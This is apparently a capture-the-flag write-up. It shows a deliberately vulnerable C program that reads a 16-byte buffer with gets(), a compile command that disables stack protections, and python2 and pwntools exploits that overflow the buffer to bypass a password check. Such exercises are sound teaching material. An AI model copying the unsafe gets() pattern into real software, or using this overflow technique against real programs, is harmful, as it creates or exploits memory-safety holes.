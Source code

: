 ```yaml
---
description: 08/15/2023
---
```


# 1️⃣ 1️⃣ 01

This is an entirely custom project that I am extremely proud of. It consists of us overwriting variables on the stack in order to bypass compares so that you can grab the flag without even having the right password.

> Can you find the password?
>
> How can you get the flag without using the correct password?

## Static Source Code Analysis

```c
#include <stdio.h>
#include <string.h>

const char* hacked()
{
    const char* local_flag = {"XYC{H0wD1d1G3tH3r3?!}"};

    printf("This is a secret function.\n");
    printf("Access level 0 is required. All attempts to access will be logged.\n");
    printf("Oh yeah, here's your flag: %s\n", local_flag);

    return local_flag;

}

char * flag = "XYC{H0wD1d1G3tH3r3?!}";

int main()
{

    char code[16];
    int access = 0;

    printf("Please enter the secret code: \n");
    gets(code);
    fflush(stdout);

    if(strcmp(code, "1337") == 0)
    {
        flag = hacked();

        access = 1;
    }

    else
    {
        printf("Access denied, silent alarm has been triggered!\n");
    }

    if(access)
    {
        printf("Authentication successful as root (access level=%d) \n", access);
        printf("You are root, granting access... \nAccess granted, welcome root.\n");
        printf("Wow, you realized we could overflow the buffer and you could still get the flag? Nice.\nHere's your flag: %s", flag);
    }

    else
    {
        printf("Authentication failed as root (access level=%d)\n", access);
    }

    return 0;

}
```

Compile:

```
gcc 01.c -o 01 -m32 -fno-stack-protector -z execstack -no-pie -g
```

We can see that we have a `hacked()` function which contains our flag. Notice the return of `local_flag`.

We can also see that our flag is being set as a global so it can be accessed through main and passed throughout the program.&#x20;

Also, be conscious of the dangerous `gets()` call again, as we remember why this is dangerous from our last example in [00](00.md).&#x20;

Our `strcmp()` is being compared to our input to our buffer (`code`) which is of **16-bytes** and is looking for the correct input of "**1337**" so that we can access our secret function.

If we can input the password correctly, we will be granted access to the secret function.&#x20;

If not, we will trigger the alarm.

## Exploitation

### Manual Method

python2:

```
python2 -c 'print "A" * 17' > payload
```

Exploit:

```
./01 < payload
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Automated Method (pwntools)

exploit.py:

```python
from pwn import *

# Establish the connection to the program
p = process('./01')  # Change this to the actual path of the '01' program

context.log_level = 'debug'

# Wait for the ':' prompt
p.recvuntil(':')

# Send 17 bytes of 'A' characters
payload = b'A' * 17
p.sendline(payload)

# Print the program's output
print(p.recvall().decode())

# Close the connection
p.close()
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## `gdb`

We can see our payload of A's overwriting our variables on the stack so we can bypass the comparisons/checks and get straight into the right version of our `hacked()` function that we want.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

We never inputed the correct password of "1337":

<figure><img src="../../.gitbook/assets/image (88).png" alt=""><figcaption></figcaption></figure>
